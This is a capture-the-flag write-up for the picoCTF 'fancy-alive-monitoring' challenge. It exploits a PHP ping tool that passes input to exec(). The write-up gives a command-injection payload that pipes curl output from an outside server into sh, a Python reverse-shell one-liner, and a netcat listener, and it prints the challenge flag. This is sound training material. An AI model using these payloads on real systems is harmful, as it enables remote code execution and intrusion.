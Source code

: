 # fancy-alive-monitoring [400pts]
> One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell1.picoctf.com:56517 ?

Site looks like this:
![site](fam1.png)

We look at the index source code:

```php
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

We see that there is validation on two sides: the client side and the server side. We can bypass client-side validation easily by either turning off javascript or directly POSTing to the endpoint. We'll use Postman and choose the latter.

Next is the server-side validation which contains a really _really_ long RegEx pattern that looks scary. We don't really care about most of it though because essentially all it means is it has to have an IP format in it. That **does not** mean we can't **attach stuff to the end**.

We can see that the most important line is

```
exec('ping -c 1 '.$ip, $cmd_result);
```

php's exec function is inherently vulnerable and should allow us to get remote command execution (RCE). We'll chain a curl statement to the IP.

```
8.8.8.8 && curl 192.34.59.172:8000 | sh;
```

We're just using 8.8.8.8 as a generic IP address; it doesn't matter. As for the curl statement, it will read a file on our server and pipe that to sh. If you need a server, I find [**Digital Ocean**](https://m.do.co/c/6328c4d4cd53) to be pretty good (If you click that link, you get $100 in credits, and I get $25).

On our server, it'll have some sort of remote shell exec code. You can find a bunch of these on [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In my case I used the python one.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We'll also have to open up a port on our server. One of the easiest ways to do that is via netcat.

```
nc -l <PORT>
```

In the remote shell exec code, make sure to change the default args like `<IP>` and `<PORT>` to your own server's one.

![postman](fam2.png)

The request looks like its still loading because it's listening before completing the HTTP request. Let's check the terminal.

![flag](fam3.png)

There's your flag. `picoCTF{n3v3r_trust_a_b0x_91345b04}`